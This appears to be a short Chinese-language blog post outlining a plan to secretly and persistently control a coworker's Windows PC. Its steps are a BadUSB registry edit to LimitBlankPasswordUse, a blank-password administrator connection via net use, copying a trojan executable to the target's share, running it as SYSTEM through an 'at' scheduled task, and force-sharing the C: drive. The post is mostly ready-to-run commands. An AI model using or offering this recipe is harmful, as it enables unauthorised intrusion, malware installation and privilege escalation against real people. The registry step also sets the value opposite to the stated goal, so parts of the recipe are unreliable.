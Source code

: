 ```yaml
---
layout: mypost
title:  net use 低调持久控制同事电脑的奇怪想法
categories: [Windows,cmd]
---
```


1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.

```cmd
cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
```

通过修改这个选项,下一步可以利用 `net use `建立空链接.

2 net use

```cmd
net use \\IP "" /user:administrator
#建立空链接
net view #然后查看目标机器的共享了哪些目录?
#假设有可用的共享目录c
copy 木马.exe \\ip\c #拷贝木马文件到目标机器
#使用 at 计划任务命令
net time \\ip #查看目标机器现在的时间
at \\ip 17:55:00 cmd /c "c:\木马.exe" #通过计划任务命令运行拷贝的木马文件

#如果没有可用的共享目录
at \\ip 17:55:00 cmd /c "net share c=c: /grant:administrator,full" #使用计划任务共享一下c盘以便来使用.

ps:
at #使用了 system 权限, meterpreter [get system] 不好用的时候,也可以用来运行木马文件来进行提权.
```

